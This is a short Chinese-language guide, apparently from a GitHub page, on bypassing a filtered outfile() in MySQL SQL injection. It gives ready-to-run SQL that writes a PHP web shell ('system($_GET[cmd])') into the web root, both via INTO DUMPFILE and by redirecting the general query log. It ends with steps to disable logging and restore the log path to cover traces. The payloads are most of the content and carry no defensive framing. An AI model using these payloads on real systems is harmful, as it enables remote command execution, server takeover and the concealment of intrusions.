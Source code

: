 ### SQL 注入 outfile() 被过滤怎么绕过

**1. 利用 `dumpfile()` 函数**

如果 `outfile()` 被禁用，但 `dumpfile()` 未被过滤，这是一个直接的替代方案

- **区别**：`outfile()` 可以将查询结果输出到文件中，支持多行数据。而 `dumpfile()` 只能输出单行数据。
- **用法**：将需要写入文件的内容作为查询结果，然后使用 `into dumpfile` 写入

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO DUMPFILE '/var/www/html/shell.php';
```

**2. 利用日志文件**

如果数据库开启了通用查询日志（`general_log`）或者慢查询日志（`slow_query_log`），并且你有权限修改日志路径，那么可以利用这个特性来写入 Webshell

- **步骤**：
  1. **设置日志文件路径**：将 `general_log_file` 或 `slow_query_log_file` 的值修改为 Web 目录下的一个可写路径，例如 `/var/www/html/shell.php`
  2. **开启日志**：将 `general_log` 或 `slow_query_log` 设为 `ON`
  3. **写入恶意代码**：执行一个包含 Webshell 代码的查询，例如 `SELECT '<?php system($_GET["cmd"]); ?>'`。这条查询语句会被写入到日志文件中，从而创建 Webshell

```sql
# 修改日志路径
SET GLOBAL general_log_file = '/var/www/html/shell.php';

# 开启日志
SET GLOBAL general_log = ON;

# 写入 Webshell
SELECT '<?php system($_GET["cmd"]); ?>';

# 写入完成后，关闭日志并重置路径，避免留下痕迹
SET GLOBAL general_log = OFF;
SET GLOBAL general_log_file = '/path/to/original/log';
```